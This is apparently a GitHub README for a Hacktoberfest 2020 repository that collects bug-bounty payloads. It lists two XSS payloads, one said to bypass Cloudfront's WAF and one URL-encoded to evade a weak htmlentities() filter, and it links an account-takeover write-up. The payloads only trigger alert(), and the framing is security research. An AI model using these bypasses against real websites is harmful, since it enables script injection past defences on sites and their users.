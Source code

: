 <center><img src="https://hacktoberfest.digitalocean.com/assets/h-dark-d1a5f262f5aa5936d3bc526365938d98f3946e669f6e2cd9ae1e7a848c57e351.svg" alt="drawing" width="200"/></center>

# Hacktoberfest 2020

Hacktoberfest® is open to everyone in our global community. Whether you’re a developer, student learning to code, event host, or company of any size, you can help drive growth of open source and make positive contributions to an ever-growing community. All backgrounds and skill levels are encouraged to complete the challenge.

- Hacktoberfest is a celebration open to everyone in our global community.
- Pull requests can be made in any GitHub-hosted repositories/projects.
- You can sign up anytime between October 1 and October 31.
## Let's contribute the easy way

For this time I will try to fill in the repo with a payload related to Bug Hunting, you can add it to participate in the Hacktoberfest 2020 event and also make it easier for other Bug Hunters to handle problems such as payloads being blocked by WAF and others by adding your payload in a new file with the format shown below.

## Payload List
##### XSS Bypass Cloudfront WAF By Noobsec
```html
x"><--<img src= "><details/open/ontoggle=alert(`mindbl0w@bugcrodninja.com`)>> --!>=
```
---
##### XSS Bypass htmlentities() [bad implementation case]
```html
%2522%253E%253Csvg%252Fonload%253Dalert%25281%2529%253E
```
---

## Writeup List
##### No Rate Limiting to Bypass Phone Verification
- [Account Takeover ~ Yasuyadav](https://medium.com/@vasuyadav0786/5-ways-to-do-ato-in-a-single-website-cfe7e5da987e)
---
## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)

